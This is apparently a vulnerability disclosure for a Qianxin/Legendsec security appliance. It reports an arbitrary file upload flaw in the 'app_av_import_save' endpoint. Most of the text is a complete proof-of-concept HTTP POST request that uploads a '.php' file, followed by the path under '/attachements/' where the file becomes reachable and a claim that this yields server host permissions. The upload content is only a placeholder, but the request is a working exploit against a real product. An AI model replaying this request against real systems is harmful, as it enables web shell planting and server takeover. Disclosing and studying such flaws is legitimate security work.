 # Product name
qianxin wangshen
## URL
https://www.legendsec.com/
## Version
last

# Vulnerability 
## Problem file
1.php
## poc

```
POST /?g=app_av_import_save HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye47i1yjiwdNmjKaQ
Content-Length: 532

------WebKitFormBoundarye47i1yjiwdNmjKaQ
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundarye47i1yjiwdNmjKaQ
Content-Disposition: form-data; name="upfile"; filename="12.php"
Content-Type: text/plain

12121
------WebKitFormBoundarye47i1yjiwdNmjKaQ
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundarye47i1yjiwdNmjKaQ
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundarye47i1yjiwdNmjKaQ--
```
## Vulnerability details
Any file upload vulnerability exists on the interface. You can use this vulnerability to obtain the host permission of the server.
<img src=./1.png>
The path of the uploaded file is:
url+/attachements/xxxxx.php
<img src=./2.png>


